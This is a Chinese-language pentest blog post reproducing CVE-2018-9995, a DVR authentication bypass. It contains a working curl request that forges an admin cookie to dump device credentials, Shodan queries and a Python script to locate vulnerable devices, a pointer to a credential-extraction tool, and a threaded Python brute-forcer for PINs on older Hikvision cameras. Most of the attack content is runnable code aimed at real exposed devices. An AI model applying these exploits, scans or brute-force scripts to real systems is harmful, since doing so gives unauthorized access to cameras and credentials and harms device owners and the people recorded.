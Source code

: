 ```yaml
---
title: DVR登录绕过漏洞（CVE-2018-9995）
categories:
- 渗透
tags:
- CVE-2018-9995
updated: 2018-05-22
---
```


前两天的时候网上爆出了关于DVR登录绕过的漏洞（CVE-2018-9995），身边的有个大佬玩的high的不得了，今天有时间来复现一下看下效果。





## 1. 使用shodan查找

网上复现的文章也挺多的，原理就是这些DVR的cookie都好简单,”uid=admin”,然后凭证都是明文…（作大死）

利用代码：

```http
curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

网上说使用shodan,zoomeye,fofa,google等搜索引擎,可以查到;

不推荐zoomeye（钟馗之眼），因为made in china，里面中国的ip全部隐藏了。

推荐使用shodan：

搜索关键字:”/longin.rsp”或者”GNU rsp/1.0”(2019.11更新，第一个 /longin.rsp 已经查不到了，第二个参数勉强还可以查一点)

如图:

<img src="{{ site.url }}/assets//blog_images/2018/5月/CVE-2018-9995_01.png" />

条件:存在device.rsp页面并可访问（一定要可以访问的）

## 2. 使用命令攻击

使用curl命令:

<img src="{{ site.url }}/assets//blog_images/2018/5月/CVE-2018-9995_02.png" />

登录账号：admin        密码为空

直接登录即可（使用IE浏览器）：

<img src="{{ site.url }}/assets//blog_images/2018/5月/CVE-2018-9995_03.png" />

## 3. 使用批量脚本验证

还有一个阿根廷的大牛写了个py工具,直接获取明文密码

工具发布在了github上

```http
https://github.com/ezelf/CVE-2018-9995_dvr_credentials
```

## 4. 关于shodan(201911更新)

最近的时候，在整理博客，本来想写一个自动化脚本来探测这个漏洞的，第一个是确实没有时间，第二个在shodan上看到了这个漏洞越来越少了，前端时间shodan做活动，买了一个会员，我们可以直接通过python安装shodan，然后通过api就可以实现调用：

```python
# coding:utf-8
import shodan

api = shodan.Shodan('api') # 这里面填写你的api的值
results=api.search('GNU rsp/1.0')    #搜索apache，返回 JSON格式的数据
# print(results)
# print("Results found:%s"%results['total'])
for result in results['matches']:
    print(result['ip_str'])     #打印出ip地址
```

通过上面的这个脚本，就可以过滤出可能存在CVE-2018-9995这个漏洞的ip地址，接下来可以根据上面那个大神给的脚本进行测试即可！

## 5. 海康部分老旧摄像头漏洞

但是这里存在一个问题：很多的摄像头都是安装在内网中的，所以很多的时候我们都在内网中进行测试，上面的那个漏洞不一定存在，这里我们以海康的为例，来说明一下如何使用爆破的方法来测试摄像头，目前市面上存在一些老旧的海康的摄像头依旧可以通过这种方法进行破解。

<img src="{{ site.url }}/assets//blog_images/2018/5月/CVE-2018-9995_04.png" />

### 1.弱口令

首先第一步使用弱口令，比如：admin:12345,123456,admin等这样的去尝试，我们通过抓包可以得到该摄像头在密码传输使用的是base64加密的密文进行传输的。我们可以使用burpsuite中的工具去暴力破解，加载自己的字典去尝试。

### 2.访问 PSIA/Custom/SelfExt/userCheck

有些设备会对你口令试探作出限制，当你访问超过一定次数时就会封掉你的ip地址，在登录的时候，抓包可以发现向位于/PSIA/Custom/SelfExt/userCheck的端点发出XHR GET请求。用户名和密码包含在内。该请求将返回带有字段的XML文档，如果验证失败则返回401，如果成功则返回200。这里不会因为你爆破次数多而被ban掉，所以这里如果运气好的话，可以构造这个进行爆破处理，网上有大佬给出了代码，我稍微修改了一下，但是还存在缺点没有修改，就是在取得口令之后程序可能不会自动停掉。。。主要是因为太~~懒~~**忙**了:

```python
# -*- encoding: utf-8 -*-
from requests import get 
from base64 import b64encode 
import queue 
import threading

class DV_Test(threading.Thread):
    def __init__(self,q):
        super(DV_Test, self).__init__()
        self.q = q
        
    def run(self):
        while not self.q.empty():
            try:
                # print('test:',self.q.get())
                self.test(i=self.q.get())
            except:
                pass
        
    def test(self,i):
        url = 'http://172.16.82.238/PSIA/Custom/SelfExt/userCheck' 
        atoken = b64encode(b"admin:%i" % i) 
        auth = ("Basic %s" % atoken.decode("utf-8")) 
        r = get(url, headers={'Authorization': auth},timeout=3)
        if "401" not in r.text: 
            print(f"Found pin: {i} \n")
        else:
            print('failed:',i)

def main():
    q = queue.Queue()
    thread_counts = 10 # 定义你的线程数，不要太大了
    threads = []
    for i in range(10000, 999999): # 这里爆破的是从10000到999999之间的数字口令
        q.put(i)
    for j in range(thread_counts):
        threads.append(DV_Test(q))
    for thread in threads:
        thread.start()
    for thread in threads:
        thread.join()

if __name__ == "__main__":
    main()
```

**但是注意！！！** **不要线程太大**  如果你要是想加上自己的字典，只要稍微修改一下代码就好了。

最后共勉一句话：

《善恶的彼岸》146小节，原文
Wer mit Ungeheuern kämpft, mag zusehn, dass er nicht dabei zum Ungeheuer wird. Und wenn du lange in einen Abgrund blickst, blickt der Abgrund auch in dich hinein.

 -------当你在凝望深渊的时候,深渊也在凝望你
